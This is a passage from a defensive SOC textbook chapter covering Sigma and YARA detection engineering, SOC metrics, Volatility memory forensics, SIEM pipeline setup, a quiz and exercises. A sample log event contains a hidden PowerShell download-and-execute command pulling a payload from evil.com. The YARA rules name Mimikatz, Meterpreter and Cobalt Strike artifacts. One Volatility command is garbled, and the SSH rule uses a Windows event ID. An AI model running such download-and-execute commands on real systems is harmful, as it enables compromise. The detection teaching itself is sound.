  private matchValue(eventValue: unknown, pattern: string, modifiers: string[]): boolean {
    if (eventValue === undefined || eventValue === null) return false;

    const strValue = String(eventValue).toLowerCase();
    const strPattern = pattern.toLowerCase();

    if (modifiers.includes('contains')) {
      return strValue.includes(strPattern);
    }
    if (modifiers.includes('startswith')) {
      return strValue.startsWith(strPattern);
    }
    if (modifiers.includes('endswith')) {
      return strValue.endsWith(strPattern);
    }
    // Default: exact match
    return strValue === strPattern;
  }

  private getNestedValue(obj: any, path: string): unknown {
    return path.split('.').reduce((current, key) => current?.[key], obj);
  }
}

// Demo
function sigmaDemo() {
  const engine = new SigmaEngine();

  engine.loadRules([
    {
      title: 'Suspicious PowerShell DownloadString',
      id: 'rule-1',
      description: 'Detects PowerShell downloading remote payloads',
      status: 'stable',
      tags: ['attack.execution', 'attack.t1059.001'],
      logsource: { category: 'process_creation', product: 'windows' },
      detection: {
        selection: {
          'Image|endswith': '\\powershell.exe',
          'CommandLine|contains': ['DownloadString', 'Invoke-Expression', 'IEX'],
        },
        condition: 'selection',
      },
      falsepositives: ['IT admin scripts'],
      level: 'high',
    },
  ]);

  const event: LogEvent = {
    timestamp: new Date(),
    source: 'Windows EventLog',
    event_id: 4688,
    image: 'C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe',
    command_line: 'powershell.exe -NoProfile -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString("http://evil.com/payload.ps1")',
    user: 'NT AUTHORITY\\SYSTEM',
  };

  const results = engine.evaluate(event);
  console.log(JSON.stringify(results, null, 2));
}

// sigmaDemo();
```

---

## 7. SOC Maturity & Metrics

### 7.1 SOC Maturity Model (M0-M4)

```
M0 — INITIAL
╔══════════════════════════════════════╗
║ Reactive, no defined processes        ║
║ Rely on individual heroics            ║
║ No SIEM, basic antivirus              ║
╚══════════════════════════════════════╝
         │
         ▼
M1 — AD-HOC
╔══════════════════════════════════════╗
║ Basic SIEM deployed                  ║
║ Some defined processes               ║
║ MTTR: weeks                          ║
╚══════════════════════════════════════╝
         │
         ▼
M2 — DEFINED
╔══════════════════════════════════════╗
║ Documented playbooks                 ║
║ Tiered SOC structure                 ║
║ Threat intel integrated              ║
║ MTTR: days                           ║
╚══════════════════════════════════════╝
         │
         ▼
M3 — MANAGED
╔══════════════════════════════════════╗
║ SOAR automation for common threats   ║
║ Proactive threat hunting             ║
║ Custom detection rules               ║
║ MTTR: hours                          ║
╚══════════════════════════════════════╝
         │
         ▼
M4 — OPTIMIZED
╔══════════════════════════════════════╗
║ Autonomous response to 80% threats   ║
║ ML-driven anomaly detection          ║
║ Continuous improvement cycle         ║
║ MTTR: minutes                        ║
╚══════════════════════════════════════╝
```

### 7.2 Key SOC Metrics Dashboard

```typescript
// soc-metrics.ts — SOC Performance Metrics Tracker

interface SOCMetrics {
  date: Date;
  alertsReceived: number;
  falsePositives: number;
  truePositives: number;
  incidentsConfirmed: number;
  mttd: number; // Mean Time to Detect (minutes)
  mttr: number; // Mean Time to Respond (minutes)
  alertsBySeverity: Record<string, number>;
  topDetectionSources: Map<string, number>;
  analystWorkload: Map<string, number>;
}

class SOCMetricsTracker {
  private metrics: SOCMetrics[] = [];

  constructor() {
    this.metrics = [];
  }

  recordDaily(daily: SOCMetrics): void {
    this.metrics.push(daily);
  }

  getFalsePositiveRate(period: { start: Date; end: Date }): number {
    const relevant = this.metrics.filter(
      m => m.date >= period.start && m.date <= period.end
    );
    const totalAlerts = relevant.reduce((s, m) => s + m.alertsReceived, 0);
    const totalFP = relevant.reduce((s, m) => s + m.falsePositives, 0);
    return totalAlerts > 0 ? (totalFP / totalAlerts) * 100 : 0;
  }

  getMTTD(period: { start: Date; end: Date }): number {
    const relevant = this.metrics.filter(
      m => m.date >= period.start && m.date <= period.end
    );
    const total = relevant.reduce((s, m) => s + m.mttd, 0);
    return relevant.length > 0 ? total / relevant.length : 0;
  }

  getMTTR(period: { start: Date; end: Date }): number {
    const relevant = this.metrics.filter(
      m => m.date >= period.start && m.date <= period.end
    );
    const total = relevant.reduce((s, m) => s + m.mttr, 0);
    return relevant.length > 0 ? total / relevant.length : 0;
  }

  getAlertToIncidentRatio(period: { start: Date; end: Date }): number {
    const relevant = this.metrics.filter(
      m => m.date >= period.start && m.date <= period.end
    );
    const totalAlerts = relevant.reduce((s, m) => s + m.alertsReceived, 0);
    const totalIncidents = relevant.reduce((s, m) => s + m.incidentsConfirmed, 0);
    return totalAlerts > 0 ? (totalIncidents / totalAlerts) * 100 : 0;
  }

  generateReport(): string {
    const now = new Date();
    const weekAgo = new Date(now.getTime() - 7 * 86400000);
    const monthAgo = new Date(now.getTime() - 30 * 86400000);

    return `
SOC PERFORMANCE REPORT
═══════════════════════════════════════════════════
Period: ${weekAgo.toISOString().split('T')[0]} to ${now.toISOString().split('T')[0]}

KEY METRICS
───────────────────────────────────────────────────
Alerts Received:         ${this.metrics.slice(-7).reduce((s, m) => s + m.alertsReceived, 0)}
False Positive Rate:     ${this.getFalsePositiveRate({ start: weekAgo, end: now }).toFixed(1)}%
Alert-to-Incident Ratio: ${this.getAlertToIncidentRatio({ start: weekAgo, end: now }).toFixed(1)}%
MTTD (Current Week):     ${this.getMTTD({ start: weekAgo, end: now }).toFixed(0)} min
MTTR (Current Week):     ${this.getMTTR({ start: weekAgo, end: now }).toFixed(0)} min

TREND (Month-over-Month)
───────────────────────────────────────────────────
MTTD Last Month:         ${this.getMTTD({ start: monthAgo, end: weekAgo }).toFixed(0)} min
MTTR Last Month:         ${this.getMTTR({ start: monthAgo, end: weekAgo }).toFixed(0)} min
FP Rate Last Month:      ${this.getFalsePositiveRate({ start: monthAgo, end: weekAgo }).toFixed(1)}%

INDUSTRY BENCHMARKS
───────────────────────────────────────────────────
MTTD Target:             < 60 min  (Current: ${this.getMTTD({ start: weekAgo, end: now }).toFixed(0)} min)
MTTR Target:             < 120 min (Current: ${this.getMTTR({ start: weekAgo, end: now }).toFixed(0)} min)
FP Rate Target:          < 30%     (Current: ${this.getFalsePositiveRate({ start: weekAgo, end: now }).toFixed(1)}%)

ACTIONS NEEDED:
${this.getFalsePositiveRate({ start: weekAgo, end: now }) > 30 ? '  ■ High FP rate: Tune detection rules to reduce noise' : ''}
${this.getMTTD({ start: weekAgo, end: now }) > 60 ? '  ■ MTTD above target: Review detection coverage gaps' : ''}
${this.getMTTR({ start: weekAgo, end: now }) > 120 ? '  ■ MTTR above target: Add SOAR automation for common alerts' : ''}
`;
  }
}

// Demo
function metricsDemo() {
  const tracker = new SOCMetricsTracker();

  for (let day = 1; day <= 30; day++) {
    const alerts = 500 + Math.floor(Math.random() * 300);
    const fp = Math.floor(alerts * (0.2 + Math.random() * 0.2));
    const tp = alerts - fp;
    const incidents = Math.floor(tp * (0.05 + Math.random() * 0.1));

    tracker.recordDaily({
      date: new Date(2024, 6, day),
      alertsReceived: alerts,
      falsePositives: fp,
      truePositives: tp,
      incidentsConfirmed: incidents,
      mttd: 15 + Math.random() * 60,
      mttr: 30 + Math.random() * 120,
      alertsBySeverity: { critical: 5, high: 20, medium: 100, low: alerts - 125 },
      topDetectionSources: new Map([['Wazuh', 300], ['EDR', 150], ['Network', 50]]),
      analystWorkload: new Map([['Alice', 60], ['Bob', 55], ['Charlie', 45]]),
    });
  }

  console.log(tracker.generateReport());
}

// metricsDemo();
```

---

## 8. MTTD/MTTR Optimization Playbooks

### 8.1 Reducing MTTD — Detection Coverage Gaps

| Gap | Impact | Resolution | MTTD Reduction |
|-----|--------|------------|----------------|
| No logging on critical servers | Blind spots during lateral movement | Enable Windows event log forwarding + Sysmon | 72h → 2h |
| No network detection (NDR) | C2 traffic invisible | Deploy Zeek + Suricata sensors | 48h → 1h |
| DNS logging disabled | DGA/beaconing undetected | Enable DNS query logging on domain controllers | 24h → 30min |
| Cloud API calls not monitored | Cloud credential misuse undetected | Enable CloudTrail + GuardDuty | 48h → 15min |
| No file integrity monitoring | Backdoor/Rootkit installation undetected | Wazuh FIM on critical directories | 72h → 1h |

### 8.2 Reducing MTTR — Automation Playbooks

**Time Savings with Automation:**

```
Manual Response Process (No SOAR):
  Alert received → Analyst reads → Human triage → 
  Manual enrichment (VT, Shodan) → Manual block → 
  Write report → Close
  Total: ~45-90 minutes

Automated Response (SOAR):
  Alert received → Automated enrichment → 
  Automated scoring → Auto-block if critical → 
  Auto-generate report → Escalate if needed
  Total: ~2-5 minutes

Time Saved: ~90-95%
```

| Playbook | Manual Time | Automated Time | Savings |
|----------|-------------|----------------|---------|
| Phishing email triage | 30 min | 3 min | 90% |
| IP block for C2 traffic | 15 min | 30 sec | 97% |
| Malware hash enrichment | 10 min | 5 sec | 99% |
| Account lockout investigation | 45 min | 10 min | 78% |
| Ransomware containment | 60 min | 5 min | 92% |

---

## 9. Memory Forensics with Volatility 3

### 9.1 Memory Acquisition

```bash
# ── Windows Memory Acquisition ──

# Using FTK Imager (GUI) — File → Capture Memory
# Or using winpmem (command line):
winpmem_mini.exe memdump.raw

# Using DumpIt (recommended for speed):
DumpIt.exe /OUTPUT memdump.raw /QUIET

# ── Linux Memory Acquisition ──

# Using LiME (Linux Memory Extractor):
sudo insmod lime.ko "path=/tmp/memdump.lime format=lime"

# Using avml (from Microsoft):
sudo ./avml /tmp/memdump.raw

# ── VMware Memory Extraction ──
# The .vmem file is already a memory dump
# Or take a snapshot and use the .vmem file
```

### 9.2 Volatility 3 Analysis

```bash
# ── Install Volatility 3 ──
git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3
pip3 install -r requirements.txt

# ── Identify OS Profile (Windows) ──
python3 vol.py -f memdump.raw windows.info

# ── List Running Processes ──
python3 vol.py -f memdump.raw windows.pslist
python3 vol.py -f memdump.raw windows.psscan  # Uses pool scanning for hidden processes
python3 pslist -f memdump.raw windows.pstree   # Show parent-child relationships

# ── Key Process Analysis ──
# Look for:
# - Processes running from Temp folders
# - Processes with hidden windows
# - Unsigned processes
# - Processes with suspicious parent-child relationships
# Example: winword.exe spawning cmd.exe = macro execution!

# ── Network Connections ──
python3 vol.py -f memdump.raw windows.netscan

# ── DLLs Loaded by Process ──
python3 vol.py -f memdump.raw windows.dlllist --pid 1234

# ── Command Line History ──
python3 vol.py -f memdump.raw windows.cmdline

# ── Extracting Process Memory ──
python3 vol.py -f memdump.raw windows.memdump --pid 1234 --dump

# ── Scan for Malware Signatures ──
python3 vol.py -f memdump.raw windows.malfind

# ── Registry Analysis ──
python3 vol.py -f memdump.raw windows.registry.hivelist
python3 vol.py -f memdump.raw windows.registry.printkey --key "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

# ── File Scanning ──
python3 vol.py -f memdump.raw windows.filescan | grep -E "\.exe|\.dll|\.ps1|\.vbs"
```

**Memory Forensics Cheat Sheet — What to Look For:**

| Finding | Suspicious Indicators | Malware Type |
|---------|----------------------|--------------|
| Hidden processes (pslist vs psscan mismatch) | Direct kernel object manipulation | Rootkit |
| Process in non-standard paths | `\\Temp\\`, `\\AppData\\`, `\\Users\\` | Trojan |
| Unsigned DLLs in system processes | `lsass.exe` loading non-Microsoft DLLs | Credential dumper |
| Network connections from non-browser to internet | `svchost.exe` connecting to port 8080 | Backdoor/C2 |
| Writes to Windows startup keys | `HKCU\\...\\Run` with base64 values | Persistence |
| `cmd.exe` or `powershell` as child of Office app | `winword.exe` → `cmd.exe` | Macro malware |

### 9.3 YARA Rule Writing and Deployment

```yara
// suspsicious_powershell.yar — YARA Rules for In-Memory PowerShell Detection

rule SuspiciousPSDownloadString {
    meta:
        author = "SOC Team"
        description = "Detects PowerShell downloading remote payloads from memory"
        mitre_attack = "T1059.001"
        date = "2024-07-01"
    strings:
        $s1 = "DownloadString" ascii nocase
        $s2 = "Invoke-Expression" ascii nocase
        $s3 = "IEX" ascii nocase
        $s4 = "Net.WebClient" ascii nocase
        $s5 = "System.Net.WebClient" ascii nocase
    condition:
        2 of ($s1, $s2, $s3) and ($s4 or $s5)
}

rule MimikatzInMemory {
    meta:
        author = "SOC Team"
        description = "Detects Mimikatz or Mimikatz-like credential dumping"
        mitre_attack = "T1003.001"
    strings:
        $m1 = "mimikatz" ascii nocase
        $m2 = "sekurlsa" ascii nocase
        $m3 = "kerberos" ascii nocase
        $m4 = "wdigest" ascii nocase
        $m5 = "lsadump" ascii nocase
        $m6 = "SAM"
    condition:
        ($m1 or $m2 or $m5) and ($m3 or $m4 or $m6)
}

rule CobaltStrikeBeacon {
    meta:
        author = "SOC Team"
        description = "Cobalt Strike beacon artifacts"
        mitre_attack = "S0154"
    strings:
        $method1 = "MSSE-"
        $method2 = "0x2f,0x3d,0x2e,0x3d,0x2f,0x3d,0x2e,0x3d"
        $namedpipe = "\\\\.\\pipe\\MSSE-"
        $mutex = "Global\\MSSE-"
    condition:
        any of them
}

rule MetasploitMeterpreter {
    meta:
        author = "SOC Team"
        description = "Detects Metasploit Meterpreter payload signatures"
    strings:
        $m1 = "meterpreter" ascii nocase
        $m2 = "reflective_loader" ascii nocase
        $m3 = { 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 }  // PE header
        $m4 = "ws2_32" ascii nocase
        $m5 = "reverse_tcp" ascii nocase
    condition:
        2 of ($m1, $m2, $m5) or ($m3 and $m4)
}
```

**YARA Deployment via TypeScript:**

```typescript
// yara-scanner.ts — YARA Rule Management and Scanning

interface YaraRule {
  name: string;
  metadata: Record<string, string>;
  strings: string[];
  condition: string;
}

class YaraManager {
  private rules: YaraRule[] = [];

  addRule(rule: YaraRule): void {
    this.rules.push(rule);
  }

  loadFromDirectory(directory: string): void {
    // In production, parse .yar files
    console.log(`Loading YARA rules from ${directory}`);
  }

  async scanMemory(dumpPath: string): Promise<any[]> {
    const findings: any[] = [];

    for (const rule of this.rules) {
      // In production: call yara-python or yara-rs
      // For each match, record the finding
      console.log(`Scanning with rule: ${rule.name}`);
    }

    return findings;
  }

  generateReport(findings: any[]): string {
    if (findings.length === 0) {
      return 'No YARA matches found in memory dump.\n';
    }

    return `
YARA SCAN REPORT
═══════════════════════════════════════════════════
File:   memdump.raw
Rules:  ${this.rules.length}
Matches: ${findings.length}

MATCHES:
${findings.map((f, i) => `  ${i + 1}. [${f.rule}] ${f.description} — offset: 0x${f.offset.toString(16)}`).join('\n')}

RECOMMENDATIONS:
${findings.length > 0 ? '  ■ Immediate containment required' : ''}
`;
  }
}
```

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| Implement a 3-tier SOC model with clear SLAs | Tier 1 triages within 5 min for critical alerts; Tier 2 investigates; Tier 3 hunts proactively — each with measurable KPIs |
| Deploy SIEM with ELK + Wazuh for centralized visibility | Winlogbeat/Filebeat ship logs → Logstash parses → Elasticsearch indexes → Kibana visualizes — full pipeline in under 2 hours |
| Automate incident response with SOAR playbooks | Build TypeScript enrichment engines that query VirusTotal, AbuseIPDB, and Shodan in parallel, then score and contain automatically |
| Hunt using MITRE ATT&CK hypotheses | Start every hunt with a hypothesis (e.g., "Adversaries may be using PowerShell with base64 encoding") and validate with SIEM queries |
| Tune detection rules to reduce false positives | Measure FPR monthly; target <30% by adjusting thresholds, whitelisting known-good behavior, and using statistical baselines |
| Operationalize threat intel via MISP feeds | Import STIX/TAXII feeds into MISP, normalize IoCs, and push indicators to SIEM/EDR for automated blocking |

## Summary

- **SOC Architecture** follows a 3-tier model (Triage, Investigation, Advanced Threat) with defined SLAs per severity level.
- **SIEM Pipeline** with ELK + Wazuh provides centralized log ingestion, parsing, correlation, and alerting across the enterprise.
- **SOAR Automation** reduces MTTR by 90-95% through playbook-driven enrichment, scoring, and containment in TypeScript.
- **Threat Hunting** shifts from reactive alerting to proactive hypothesis-driven detection using MITRE ATT&CK as a framework.
- **Threat Intelligence** operationalizes IoCs via MISP, STIX/TAXII feeds, and automated SIEM integration.
- **Detection Engineering** with Sigma rules and custom TypeScript engines enables high-signal, low-noise detections.
- **SOC Maturity** is measured by MTTD (<60 min), MTTR (<120 min), and FP rate (<30%), progressing from M0 (reactive) to M4 (autonomous).
- **Memory Forensics** with Volatility 3 and YARA rules uncovers in-memory malware, rootkits, and credential dumpers.

---

## Chapter Quiz

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | In a SOC architecture, what is the primary responsibility of Tier 1? | Reverse engineering malware | Alert triage and false positive filtering | Proactive threat hunting | Building custom detection tools | **B** |
| 2 | Which Windows Event ID corresponds to a successful logon? | 4625 | 4624 | 4688 | 4698 | **B** |
| 3 | What does MTTD measure? | Mean Time to Diagnose | Mean Time to Detect | Mean Time to Deploy | Mean Time to Document | **B** |
| 4 | In the SOC Maturity Model (M0-M4), at which level does SOAR automation appear? | M1 (Ad-Hoc) | M2 (Defined) | M3 (Managed) | M4 (Optimized) | **C** |
| 5 | What format does Sigma use for writing detection rules? | JSON | XML | YAML | TOML | **C** |
| 6 | Which ATT&CK technique corresponds to PowerShell execution? | T1059.001 | T1003.001 | T1558.003 | T1078.004 | **A** |
| 7 | In the STIX/TAXII model, what does STIX describe? | The protocol for exchanging intel | The language for describing threat intel | The format for log storage | The framework for risk assessment | **B** |
| 8 | What is the indicator of a C2 beaconing connection? | Random intervals with large data transfers | Regular intervals with small data transfers | Single connection with large payload | Continuous TCP connection with no data | **B** |
| 9 | Which Volatility 3 plugin lists hidden processes using pool scanning? | pslist | pstree | psscan | malfind | **C** |
| 10 | What is the recommended false positive rate target for a mature SOC? | < 10% | < 20% | < 30% | < 50% | **C** |

---

> **Next: Chapter 12 → Malware Analysis & Reverse Engineering.** Static/dynamic analysis, Ghidra/IDA, packers, sandboxes, and memory forensics.

---

## Supplementary Depth

### Full Wazuh Integration — Filebeat, Logstash, Elasticsearch Pipeline

For high-volume production environments, use Logstash as an intermediary for parsing before sending to Elasticsearch:

```bash
# ── Logstash Installation ──
sudo apt install logstash -y

# ── Logstash Pipeline: Parse Windows Event Logs ──
sudo tee /etc/logstash/conf.d/windows-events.conf << 'EOF'
input {
  beats {
    port => 5045
  }
}
filter {
  if [event_id] == 4688 {
    grok {
      match => {
        "message" => "Process Creation:\s*New Process ID:\s*(?<new_process_id>\S+)\s*Creator Process ID:\s*(?<creator_process_id>\S+)\s*Process Name:\s*(?<process_name>\S+)\s*Command Line:\s*(?<command_line>.*)"
      }
    }
  }
  if [event_id] == 4624 {
    mutate { add_tag => ["windows-logon-success"] }
  }
}
output {
  elasticsearch {
    hosts => ["localhost:9200"]
    index => "windows-events-%{+YYYY.MM.dd}"
  }
}
EOF
sudo systemctl restart logstash
```

### Kibana Detection Rules Configuration

Create detection rules via Kibana API:

```bash
# Create a Kibana detection rule for brute force detection
curl -X POST "http://localhost:5601/api/detection_engine/rules" \
  -H "Content-Type: application/json" \
  -H "kbn-xsrf: true" \
  -d '{
    "rule_id": "BRUTE-FORCE-001",
    "name": "SSH Brute Force Attempt",
    "severity": "high",
    "type": "query",
    "query": "event_id:4625 AND source_ip:* AND logon_type:3 AND _count:[10 TO *]",
    "interval": "5m",
    "from": "now-30m",
    "actions": [
      {
        "group": "default",
        "action_type_id": ".webhook",
        "params": {
          "url": "http://soar-engine:3000/webhook/alert",
          "method": "POST"
        }
      }
    ]
  }'
```

---

## Mermaid Diagrams

### SOC Alert Triage Workflow



### SIEM Data Pipeline Architecture



---

---

## Exercises

### Review Questions

1. What are the three tiers of SOC analysts and what are their primary responsibilities?

<details>
<summary>Solution</summary>
Tier 1 (Triage): Monitor alerts, validate/classify, escalate true positives, handle false positives. Tier 2 (Investigation): Deep-dive analysis of escalated incidents, containment, threat hunting, root cause analysis. Tier 3 (Advanced/Threat Intel): Malware analysis, reverse engineering, detection engineering, SOC tool optimization, threat intelligence integration.
</details>

2. Explain the difference between MTTD, MTTR, and MTTI in SOC metrics.

<details>
<summary>Solution</summary>
MTTD (Mean Time to Detect): time from compromise to detection. MTTR (Mean Time to Respond): time from detection to containment/remediation. MTTI (Mean Time to Investigate): time spent actively investigating an alert. Goal: minimize MTTD (better detection) and MTTR (faster response). MTTI helps resource planning — high MTTI may indicate need for more Tier 2 analysts.
</details>

3. What is the Pyramid of Pain and why is it important for threat intelligence?

<details>
<summary>Solution</summary>
The Pyramid of Pain ranks indicators of compromise by difficulty for the attacker to change: Hash values (easy) → IP addresses → Domain names → Network artifacts → Host artifacts → Tools → TTPs (hardest). It's important because focusing detection on higher levels (TTPs, tools) forces attackers to change their entire methodology, while lower levels (hashes, IPs) are trivially changed.
</details>

4. How does the Cyber Kill Chain differ from the MITRE ATT&CK framework?

<details>
<summary>Solution</summary>
Cyber Kill Chain (Lockheed Martin): linear, 7 phases (Recon → Weaponization → Delivery → Exploitation → Installation → C2 → Actions). MITRE ATT&CK: non-linear, comprehensive matrix of tactics (14) and techniques (hundreds). Kill Chain is high-level and sequential; ATT&CK is detailed and flexible — it maps multiple techniques per tactic, allows multiple paths, and covers post-compromise activities in depth that the Kill Chain condenses.
</details>

5. What is a Sigma rule and what problem does it solve for detection engineering?

<details>
<summary>Solution</summary>
Sigma is a generic, vendor-agnostic rule format for describing log detection logic (YAML format). It solves the problem of writing the same detection rule multiple times for different SIEMs (Splunk, Elastic, QRadar, Azure Sentinel). A single Sigma rule can be converted to multiple SIEM query languages using sigma-cli, enabling detection-as-code and cross-platform sharing.
</details>

6. Explain the Diamond Model of Intrusion Analysis and its four core features.

<details>
<summary>Solution</summary>
The Diamond Model structures intrusion analysis around four vertices: Adversary (actor/threat group), Capability (tools, malware, exploits), Infrastructure (IPs, domains, C2 servers), Victim (target organization/person). Edges represent relationships: Adversary uses Capability on Infrastructure against Victim. Analysis identifies pivot points — e.g., finding new infrastructure via capability hash, or linking adversaries via shared infrastructure.
</details>

### Practical Exercises

1. **SIEM Deployment Lab:** Using the lab from Chapter 1, deploy the Wazuh SIEM:
   - Install Wazuh indexer + server + dashboard
   - Deploy Wazuh agents on Windows and Linux targets
   - Configure log collection (Windows Event Logs, Sysmon, Linux auth.log)
   - Verify logs are appearing in the Wazuh dashboard
   - Create a custom alert rule

<details>
<summary>Solution</summary>
Follow Wazuh quickstart: install indexer (Elasticsearch), server (Wazuh manager), dashboard (Kibana). Add agents: `wazuh-agent` package on Linux, MSI on Windows. Configure ossec.conf for log collection: `<localfile><log_format>syslog</log_format><location>/var/log/auth.log</location></localfile>`. Verify in dashboard: Agents → agent → Security Events. Custom rule: add to `/var/ossec/etc/rules/local_rules.xml` → `<rule id="100001" level="10"><match>sudo FAILED</match></rule>`.
</details>

2. **Sigma Rule Development:** Write Sigma rules for the following detection scenarios:
   - PowerShell with encoded command execution
   - Scheduled task creation for persistence
   - Pass-the-hash detection (Event ID 4624 with Logon Type 3 and NTLM)
   - Suspicious LSASS process access (Event ID 4663)
   - Convert each rule to Elasticsearch/KQL format using sigma-cli

<details>
<summary>Solution</summary>
PowerShell encoded:
```yaml
title: PowerShell Encoded Command
logsource: { product: windows, service: powershell }
detection: { selection: { EventID: 4104, ScriptBlockText|contains: "-enc" } }
```
Convert: `sigma convert -t es-rule -o rule.json rule.yml`. For Pass-the-hash: detect EventID 4624 with LogonType 3 and AuthenticationPackageName: NTLM. Scheduled task: EventID 4698 (Task Scheduler). LSASS access: EventID 4663 with ObjectName containing lsass.exe.
</details>

3. **Threat Hunting Exercise:** Using Elastic SIEM or Wazuh with simulated attack data:
   - Hunt for C2 beaconing (regular intervals, small packets, JA3 hashes)
   - Hunt for credential dumping (lsass.exe access events)
   - Hunt for lateral movement (Event ID 4624 with Logon Type 3 from unusual source)
   - Create a hypothesis-driven hunt plan and document your findings

<details>
<summary>Solution</summary>
Hypothesis: "An attacker has established C2 beaconing to our environment." Hunt: Search for network connections with regular timing (±2s variance), small payload sizes (100-500 bytes), and known malicious JA3 hashes. Use Elastic query: `network.protocol: tls AND ja3.hash: "6734f37431670b3ab4292b8f60f29984"`. Credential dumping hunt: `event.code: 4663 AND process.name: lsass.exe AND NOT winlog.event_data.AccessMask: "0x1"`. Lateral movement: `event.code: 4624 AND LogonType: 3 AND NOT source.ip: 10.0.0.0/8`. Document findings, false positive rate, and gaps.
</details>

4. **Alert Triage Simulation:** Given the following 10 alerts from a SIEM, categorize each:
   - Benign / False Positive / Confirm True Positive / Requires Escalation
   - For each, write the triage notes explaining your decision
   - Alert data: PowerShell script execution (admin), Failed logon from known IP (janitor), Outbound DNS to known C2 domain, Large file upload at 3 AM (backup server), New service installed (Windows Update), USB device connected (manager's laptop), Login from Russia (employee on vacation), Process injection detected (game.exe), Firewall rule changed (IT admin during maintenance), Email with "Invoice" attachment from external sender

<details>
<summary>Solution</summary>
1) PowerShell (admin) → Benign (admin activity, verify purpose). 2) Failed logon (janitor) → Benign/False Positive (user may have mistyped). 3) DNS to C2 domain → Confirm True Positive, Escalate (lookup domain reputation, check process that made the query). 4) Large file upload 3AM (backup) → Benign (scheduled backup). 5) New service (Windows Update) → Benign (Microsoft signed). 6) USB connect (manager) → Benign (authorized device). 7) Login from Russia (employee on vacation) → Confirm True Positive, Escalate (possible credential theft). 8) Process injection (game.exe) → Confirm True Positive (games should not inject). 9) Firewall change (IT admin) → Benign (maintenance window, verify with change request). 10) Invoice email → Requires Escalation (phishing investigation, sandbox attachment).
</details>

### Challenge Problems

1. **SOAR Playbook Development:** Design and implement a SOAR playbook using Shuffle or Tines for:
   - Phishing email response (analyze attachment → check VT → isolate endpoint → block sender → alert SOC)
   - Brute force detection (correlate failed logons → check IP reputation → block on firewall → notify user)
   - Ransomware containment (isolate endpoint → kill process → block C2 IP → create memory dump → escalate)
   Each playbook must include at least 5 steps with decision points.

<details>
<summary>Solution</summary>
Phishing playbook: 1) Extract attachment hash from email. 2) Check hash on VirusTotal API. Decision: if malicious (VT score > 5/70) → isolate endpoint via EDR API → block sender domain on email gateway → alert SOC with full details. If unknown → sandbox attachment → proceed based on sandbox verdict. Brute force: 1) Query SIEM for failed logons from same IP > 5 in 10 min. 2) Check IP reputation (AbuseIPDB). 3) Decision: if malicious → add to firewall blocklist → notify user via email → create case. Ransomware: 1) EDR detects file encryption. 2) Isolate endpoint via network ACL. 3) Kill malicious process. 4) Block C2 IP on firewall. 5) Create memory dump. 6) Escalate to Tier 3.
</details>

2. **Full SOC Simulation:** Design and run a 4-hour SOC simulation exercise:
   - Scenario: APT group attack (initial access via phishing → persistence → lateral movement → data exfiltration)
   - Inject 5+ alerts across the kill chain (some true, some false positives)
   - SOC team must: triage each alert, escalate appropriately, contain the threat, write incident report
   - Post-exercise: measure MTTD, MTTR, false positive rate, and identify areas for improvement

<details>
<summary>Solution</summary>
Inject timeline: T+0min: Email with malicious macro (real). T+30min: PowerShell connects to external IP (real). T+45min: Scheduled task creation (real). T+1h: Large outbound SMB transfer (false positive — backup). T+1.5h: New admin user created (real). T+2h: Data exfiltration to cloud storage (real). Metrics: MTTD = avg time from inject to first analyst action. MTTR = time from detection to containment. False positive rate = FP alerts / total alerts × 100. Post-exercise: review decision quality, communication, tool usage. Create improvement action items (e.g., add correlation rule for macro + PowerShell).
</details>

3. **Custom Detection Pipeline:** Build a complete detection pipeline:
   - Data source: Windows Event Logs (simulate with event log generator)
   - Collection: Winlogbeat → Kafka → Logstash → Elasticsearch
   - Detection: Custom Sigma rules converted to Elasticsearch SIEM rules
   - Alerting: Elasticsearch watcher or custom webhook to Slack/Discord
   - Response: Automated action (run script on endpoint via Wazuh active response)
   Test the pipeline by generating a real attack and confirming end-to-end detection.

<details>
<summary>Solution</summary>
Setup: 1) Configure Winlogbeat on Windows target to forward Event Logs to Kafka topic. 2) Logstash consumes from Kafka, transforms, outputs to Elasticsearch. 3) Elasticsearch SIEM rules from converted Sigma rules (e.g., detect service creation). 4) Elasticsearch Watcher triggers webhook to Slack when rule matches. 5) Wazuh active response runs script to block the endpoint. Test: Generate event with `New-Service -Name TestMalicious -BinaryPathName cmd.exe`. Verify: alert appears in Slack within 30s, endpoint is quarantined by Wazuh. Document each component's configuration and timing.
</details>
